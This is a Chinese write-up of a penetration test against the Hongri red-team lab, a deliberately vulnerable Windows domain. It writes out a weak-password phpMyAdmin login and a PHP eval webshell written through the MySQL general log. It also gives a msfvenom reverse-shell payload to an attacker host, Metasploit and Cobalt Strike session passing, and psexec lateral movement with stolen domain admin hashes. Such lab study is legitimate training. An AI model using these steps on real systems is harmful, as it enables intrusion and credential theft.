## 0x01环境信息

环境下载地址

```
百度网盘： https://pan.baidu.com/s/1nC6V8e_EuKfaLb2IuEbe7w&shfl=sharepset

密码: 【红日安全】您的下载密码为：n1u2
```

虚机统计密码hongrisec@2019

这里我为了方便修改为admin.123

**网络配置如图所示**





## 0x02 渗透测试

### **1、信息收集**

打开win7靶机phpStudy



访问http://192.168.52.143/



同时底部存在MySQL数据库连接检测： 输入默认账号密码：root/root






证明弱密码存在

使用御剑扫描敏感目录文件



### **2、漏洞利用**

访问phpmyadmin，使用root/root弱口令登录

使用SQL语句查看是否有无权限

```
show variables like '%secure_file%';
```



**`secure_file_priv`** 值为 **`NULL`** 不能使用into 方法导入shell

我们尝试在日志写 **`shell`** ，使用SQL语句开启日志服务

```mysql
set global general_log = "ON";
```



查看当前日志： **`show variables like 'general%';`**



因为这里我已经修改过了，正常情况下会看到日志所在路径，然后再指定一下日志文件:

**`set global general_log_file = "C:/phpStudy/www/1.php";`**

注意是放在www目录下，为了可以正常执行一句话木马

开始写入一句话木马

```mysql
SELECT '<?php eval($_POST["cmd"]);?>';
```

成功拿到webshell





另外还有通过扫描目录发现备份文件拿到webshell方法，这里不再重复。

### **3、内网渗透**

现在尝试使用kali自带的msf进行渗透

3.1 制作shell.exe木马

```
msfvenom -p  windows/x64/meterpreter/reverse_tcp lhost=192.168.52.128 lport=8888 -f exe >shell.exe
```

3.2 建立msf连接

```powershell
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.52.128
lhost => 192.168.52.128
msf exploit(handler) > set lport 8888
lport => 8888
msf exploit(handler) > run
```

3.3 执行shell.exe，msf成功上线





3.4 提权

getsystem提权

更改编码格式==chcp 65001==，去除meterpreter乱码



3.5 内网信息搜集


常用域内信息收集命令

```powershell
ipconfig /all 查询本机IP段，所在域等
net config Workstation 当前计算机名，全名，用户名，系统版本，工作站域，登陆域
net user 本机用户列表
net localhroup administrators 本机管理员[通常含有域用户]
net user /domain 查询域用户
net user 用户名 /domain 获取指定用户的账户信息
net user /domain b404 pass 修改域内用户密码，需要管理员权限
net group /domain 查询域里面的工作组
net group 组名 /domain 查询域中的某工作组
net group "domain admins" /domain 查询域管理员列表
net group "domain controllers" /domain 查看域控制器(如果有多台)
net time /domain 判断主域，主域服务器都做时间服务器
```

ipconfig /all查看内网环境




> 这里需要说明一点，执行域内信息收集时候总是报错，还是环境的问题
>
> ==The specified domain either does not exist or could not be contacted.==
>
> 后来发现是是未配置静态IP，将72段（域所在段）配置成静态IP，即正常

找到域控为OWA，IP地址为192.168.72.132





 添加路由进行横向移动

```bash
run post/multi/manage/autoroute
```



探测域内存活主机

```bash
run windows/gather/enum_ad_computers
```



域控列表

```bash
run windows/gather/enum_domains
```




## 0x03内网漫游

在msf操作比较麻烦，直接转到cs处理

msf下的会话传给cs

1、首先把msf上获取到的meterpreter挂在后台运行执行命令：**background**，即可

2、然后使用 exploit/windows/local/payload_inject来注入一个新的payload到session中，具体命令如下：

```shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set LHOST 192.168.10.200 //cs主机地址
set LPORT 9999 //随意设置监听端口，需要和cs保持一致
set session 14 //设置需要派送的meterpreter
set DisablePayloadHandler true //禁止产生一个新的handler
```



执行run，cs即上线，如下：



查看当前登录域及登录用户信息

```
shell net config workstation
```



"工作站域DNS名称"为域名，如果为WORKGROUP表示当前为非域环境

"登录域"表示当前登录的用户是域用户还是本地用户

继续搜集域内基础信息

查询域

```shell
shell net view /domain
```

可能是环境问题，显示还有workgroup



查询 GOD域内全部主机：

```
shell net view /domain:GOD
```



执行net view发现域内目标主机及域控



此时目标里面即会出现域控及另一台域内机器



关于 SMB Beacon

> SMB Beacon 使用命名管道通过父级 Beacon 进行通讯，当两个 Beacons 链接后，子 Beacon 从父 Beacon 获取到任务并发送。因为链接的 Beacons 使用 Windows 命名管道进行通信，此流量封装在 SMB 协议中，所以 SMB Beacon 相对隐蔽，绕防火墙时可能发挥奇效

SMB Beacon有两种使用方式：

- 直接派生一个孩子，目的为了进一步盗取hash
- 在已有的beacon上创建监听，用来作为跳板进行内网渗透

这里我们使用第二种方式，创建SMB监听：



派生一个新的smb会话




**psexec**

选择目标域控主机，`psexec`批量上线

使用 `psexec` 能迅速地获得域控主机的 `beacon` 是因为在本机中读取到了域管理员账号密码的 `hash`



同理，使域内其它主机(ROOT-TVI862UBEH)也成功上线



可以获取域控密码





但是在获取域内主机(ROOT-TVI862UBEH)密码时候失败了，不知道是不是因为win2003版本过低的原因，暂时不去探究了，另外也可以转存hash等等



参考：

https://www.cnblogs.com/Cl0ud/p/13769940.html
